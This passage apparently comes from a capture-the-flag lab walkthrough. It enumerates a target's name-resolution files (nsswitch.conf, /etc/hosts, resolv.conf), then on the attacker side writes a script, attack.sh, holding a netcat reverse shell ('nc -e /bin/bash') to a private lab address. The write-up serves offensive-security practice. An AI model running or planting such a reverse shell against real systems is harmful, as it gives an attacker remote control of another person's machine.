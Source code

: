 `cat /etc/nsswitch.conf`:
```
# /etc/nsswitch.conf
#
# Example configuration of GNU Name Service Switch functionality.
# If you have the `glibc-doc-reference' and `info' packages installed, try:
# `info libc "Name Service Switch"' for information about this file.

passwd:         files systemd
group:          files systemd
shadow:         files
gshadow:        files

hosts:          files dns ←
networks:       files

protocols:      db files
services:       db files
ethers:         db files
rpc:            db files

netgroup:       nis
```

`ls -la /etc/hosts`:
```
-rw-r--r-- 1 root root 185 Jan 27  2023 /etc/hosts ←
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
127.0.1.1       color

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

`ls -la /etc/resolv.conf`:
```
-rw-r--r-- 1 root root 48 Feb 20  2023 /etc/resolv.conf ←
```

`cat /etc/resolv.conf`:
```
nameserver 192.168.56.1 ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`mkdir ./http_server && cd ./http_server`

`echo -e '#!/bin/bash\nnc -e /bin/bash 192.168.56.118 7777' | tee ./attack.sh`:
```
#!/bin/bash
nc -e /bin/bash 192.168.56.118 7777
```
